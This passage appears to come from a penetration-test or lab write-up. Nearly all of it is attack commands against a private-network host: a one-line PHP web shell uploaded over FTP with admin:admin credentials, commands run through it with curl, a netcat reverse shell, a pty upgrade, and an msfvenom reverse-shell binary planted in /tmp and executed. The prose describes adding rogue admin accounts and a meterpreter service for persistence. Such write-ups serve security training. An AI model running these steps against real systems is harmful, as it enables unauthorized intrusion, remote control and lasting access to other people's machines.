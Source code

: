 ```bash
vim cmd.php
<?php echo shell_exec($_GET['cmd']); ?>
```

```bash
ftp 192.168.114.56 21 # admin:admin
put cmd.php
exit
```

```bash
curl "http://192.168.114.56:8295/cmd.php?cmd=whoami"
curl "http://192.168.114.56:8295/cmd.php?cmd=which%20nc"
```

I was able to get an initial shell, but knew I needed to upgrade my shell. The next steps I took where to upload a better one using Msfvenom and FTP.
```bash
sudo nc -nvlp 8295
curl "http://192.168.114.56:8295/cmd.php?cmd=nc%20192.168.49.114%208295%20-e%20%27%2Fbin%2Fbash%27"
```

## Maintaining Access
Maintaining access to a system is important to us as attackers, ensuring that we can get back into a system after it has been exploited is invaluable. The maintaining access phase of the penetration test focuses on ensuring that once the focused attack has occurred (i.e. a buffer overflow), we have administrative access over the system again. Many exploits may only be exploitable once and we may never be able to get back into a system after we have already per-formed the exploit. Victor added administrator and root level accounts on all systems compromised. In addition to the administrative/root access, a Metasploit meterpreter service was installed on the machine to en-sure that additional access could be established.

### Privilege Escalation
```bash
python -c "import pty; pty.spawn('/bin/bash');"
whoami 

# output
www-data
```

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.49.114 LPORT=21 -f elf -o rshell.elf
ftp 192.168.114.56 21 # admin:admin
put rshell.elf
exit
sudo nc -nvlp 21 # setup a netcat listener on TCP port 21
```

```bash
curl "http://192.168.114.56:8295/cmd.php?cmd=file%20rshell.elf" # confirm rshell is in relative path
curl "http://192.168.114.56:8295/cmd.php?cmd=mv%20rshell.elf%20/tmp" # confirm rshell is in relative path
curl "http://192.168.114.56:8295/cmd.php?cmd=chmod%20+x%20/tmp/rshell.elf" # make rshell executable
curl "http://192.168.114.56:8295/cmd.php?cmd=/tmp/rshell.elf" # execute rshell
```
